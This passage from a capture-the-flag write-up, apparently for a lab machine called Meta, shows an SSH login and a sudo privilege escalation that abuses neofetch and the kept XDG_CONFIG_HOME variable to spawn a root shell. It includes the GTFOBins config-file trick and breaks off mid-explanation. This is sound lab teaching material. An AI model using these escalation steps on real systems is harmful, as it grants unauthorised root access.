 ```bash

ssh -i thomas thomas@10.10.11.140

```

We now have ssh access.

## exploiting env_keep + neofetch

Let’s check our privileges:

```bash
id
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)

sudo -l

Matching Defaults entries for thomas on meta:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
(root) NOPASSWD: /usr/bin/neofetch \"\"

```

This means we can use neofetch, but cannot pass any arguments

We go on GTFObin and find neofetch. 

```bash
TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo /usr/bin/neofetch --config $TF
```

`XDG_CONFIG_HOME` is part of the **XDG Base Directory Specification**, which defines where user-specific configuration files should live in Linux/Unix environments.

- By default, it points to:
    
    ```
    $HOME/.config
    
    ```
    

So for Neofetch, our config file is typically the following when executed with sudo:

```
/root/.config/neofetch/config.conf

```

However, if we set:

```bash
export XDG_CONFIG_HOME=/home/thomas/.config
```
